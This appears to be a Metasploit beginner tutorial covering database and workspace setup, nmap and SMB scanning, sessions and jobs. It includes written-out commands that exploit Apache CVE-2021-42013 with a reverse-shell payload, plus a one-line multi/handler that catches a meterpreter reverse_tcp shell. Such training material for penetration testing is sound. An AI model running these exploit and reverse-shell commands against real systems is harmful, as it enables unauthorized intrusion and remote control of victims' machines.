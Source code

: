 # 101

## Setup

### Database

**Metasploit Framework (MSF)** in Kali Linux doesn't start its database (PostgreSQL) by default, but it’s useful for storing target data and tracking exploits.

```bash
# Initialize database
sudo msfdb init

# Start PostgreSQL service
sudo service postgresql start

# Launch MSF Console
sudo msfconsole -q

# Check database connection
msf6 > db_status
[*] Connected to msf. Connection type: postgresql.
```

### Workspaces

MSF uses **workspaces** to separate different tests and avoid data mix-up.

```bash
# Check current workspace
msf6 > workspace

# Create a new workspace
msf6 > workspace -a test_ws
[*] Added workspace: test_ws

# Switch to a specific workspace
msf6 > workspace test_ws
[*] Workspace: test_ws

# Check current workspace again
msf6 > workspace
  default
* test_ws
```

Scan results will now be saved in the selected workspace.

```bash
# Scan target
msf6 > db_nmap -A 192.168.50.202

# List discovered hosts
msf6 > hosts

# List discovered services
msf6 > services

# List hosts with port 445 (e.g., SMB service)
msf6 > services -p 445
```

## Modules

MSF includes **modules** for various purposes, categorized for ease of use.

```bash
# List module categories
msf6 > show -h
```

### Auxiliary

**Auxiliary modules** perform tasks like scanning, fuzzing, and enumeration.

```bash
# List all auxiliary modules
msf6 > show auxiliary

# Filter modules by type
msf6 > search type:auxiliary smb

# Filter by name (e.g., SMB version scanner)
msf6 > search smb_version

# Use a specific module
msf6 > use 0

# View module info
msf6 auxiliary(scanner/smb/smb_version) > info

# List module options
msf6 auxiliary(scanner/smb/smb_version) > show options

# List required options
msf6 auxiliary(scanner/smb/smb_version) > show missing

# Set required options
msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS 192.168.50.202

# Run module
msf6 auxiliary(scanner/smb/smb_version) > run
```

### Exploit

**Exploit modules** in MSF target specific vulnerabilities in applications or services. Key Features:

* **Database Integration**: Automatically tracks targets, services, and vulnerabilities.
* **Reliability**: Repeatable sessions for stable access.
* **Payload Flexibility**: Users can select payloads based on the exploit.

{% code overflow="wrap" %}
```bash
# Create a workspace for exploits
msf6 > workspace -a exploits
msf6 > workspace exploits

# Set target host
msf6 > setg RHOSTS 192.168.225.16

# Search for CVE-2021-42013 exploit
msf6 > search CVE-2021-42013

# Select exploit module
msf6 > use 0

# Configure payload and options
msf6 exploit(multi/http/apache_normalize_path_rce) > set LHOST 192.168.45.242
msf6 exploit(multi/http/apache_normalize_path_rce) > set SSL false
msf6 exploit(multi/http/apache_normalize_path_rce) > set RPORT 80
msf6 exploit(multi/http/apache_normalize_path_rce) > set payload linux/x64/shell_reverse_tcp

# Run exploit
msf6 exploit(multi/http/apache_normalize_path_rce) > run
```
{% endcode %}

## Sessions & Jobs

**Sessions** manage interactions with successfully exploited targets. **Jobs** run in the background.

```bash
# Background the current session
^Z
Background session 1? [y/N] y

# List active sessions
msf6 > sessions -l

# Interact with a session
msf6 > sessions -i 1

# Close a session
msf6 > sessions -k 1
```

## Inline Commands

{% code overflow="wrap" %}
```bash
$ msfconsole -q -x "use exploit/multi/handler; set PAYLOAD linux/x64/meterpreter/reverse_tcp; set LHOST 192.168.45.157; set LPORT 9999; exploit -j"
```
{% endcode %}
